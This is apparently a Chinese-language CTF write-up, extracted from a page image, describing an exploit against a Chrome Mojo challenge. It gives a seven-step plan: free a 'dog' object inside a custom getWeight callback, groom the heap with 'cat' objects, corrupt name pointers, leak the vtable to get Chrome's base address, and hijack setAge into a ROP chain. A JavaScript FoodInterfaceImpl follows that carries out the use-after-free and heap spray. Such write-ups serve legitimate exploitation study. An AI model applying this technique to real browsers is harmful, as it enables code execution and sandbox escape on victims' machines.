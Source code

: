 ##### 大体思路：

- 1、在我们自己实现的food的getweight方法中，free掉狗

- 2、分配一些猫，使猫落到狗之前的位置，并且将getweight的返回值设置为CatInterfaceImple的大小。
- 3、（便于描述，我们设正好落到freed狗位置的猫称为catA，A之后的猫为catB）由于第二步的设置，addweight就会使catA的name的*ptr指向catB的name。
- 4、对catB使用setname，将其name改为一个很大的值，这样就会free掉之前的内存，去指向新的大内存，这样catA就指向了那个被free的内存。
- 5、继续申请cat，使cat（设他为catC）落到catA指向的free的内存。
- 6、对catA使用getname方法，就可以获得catC中的vtable表指针和name指向的string的地址。（vtable指针可以计算出chrome的基地址，name指针可以用于伪造虚表）
- 7、将虚表中的setage处修改为找到的gadget，调用setage时就会触发rop

##### 具体实现

自定义的FoodInterfaceImpl接口方法实现：
```
function FoodInterfaceImpl() {
      this.binding = new mojo.Binding(blink.mojom.FoodInterface, this);
    }

    // Food interface implementation.
    FoodInterfaceImpl.prototype = {
        getDescription: async () => {
        },
        setDescription: async (arg) => {
        },
        getWeight: async () => {

          // 6. Free the last dog.
          dogs[dogs.length - 1].ptr.reset();

          // 7. Set names of the dogs.
          for (let i = dog_count - 1; i--; ) {
            dogs[i].setName('X'.repeat(sizeof_stringbuf * 100));
          }

          // 8. Create cats.
          cats = [];
          for (let i = 0; i < cat_count; ++i) {
            cats.push((await being_creator_interface_ptr.createCat()).cat);
          }

          // 9. Set names of cats, their capacity is the same as sizeof_CatInterfaceImpl. 
          // The first byte of the name is the id.
          for (let i = 0; i < cat_count; ++i) {
            await cats[i].setName(getIdString(i));
          }

          // 10. After return, CatInterfaceImpl::AddWeight is called. 
          // After feng shui a cat was created in the same place as the freed dog.
          // "weight += weight_;" adds to cat.name.ptr value sizeof_CatInterfaceImpl.
          // So now name.ptr of the cat points to the place right after the end of ptr data buffor,
          // which is name.ptr of some another cat.
          return {'weight': sizeof_CatInterfaceImpl};
        },
        setWeight: async (arg) => {
        },
    };

```

